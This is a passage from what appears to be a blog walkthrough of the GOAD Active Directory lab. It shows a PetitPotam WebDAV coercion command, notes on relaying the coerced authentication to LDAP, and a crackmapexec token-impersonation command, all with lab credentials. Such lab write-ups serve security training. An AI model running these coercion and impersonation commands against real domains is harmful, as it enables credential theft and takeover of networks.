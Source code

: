 ```bash
petitpotam.py -u 'arya.stark' -p Needle -d 'north.sevenkingdoms.local' "WIN-6WQ7CSHQ2YG@80/random.txt" 192.168.10.23
```

- And on our listener we got a connection :

![part13_webdav_respondernetbios2.png](/assets/blog/GOAD/part13_webdav_respondernetbios2.png)

> With an http coerce we can relay to **ldap** if ldap signing is not enforced (default). This can be use to interrogate ldap, do a shadow credentials attack, or to add a new computer and do an RBCD on the coerced host. (Theses attacks are described in part 4 - poisoning)
{: .prompt-tip }

## Impersonate Users

- Another cool way to take other accounts is using token impersonation.

- A nice article about it can be found here : [https://sensepost.com/blog/2022/abusing-windows-tokens-to-compromise-active-directory-without-touching-lsass/](https://sensepost.com/blog/2022/abusing-windows-tokens-to-compromise-active-directory-without-touching-lsass/)

- In order to do impersonation we can use the module created by @deft : [https://github.com/sensepost/impersonate](https://github.com/sensepost/impersonate)

```bash
cme smb castelblack.north.sevenkingdoms.local -u jeor.mormont -p  '_L0ngCl@w_' -d north.sevenkingdoms.local -M impersonate 
```

![part13_impersonate_token.png](/assets/blog/GOAD/part13_impersonate_token.png)
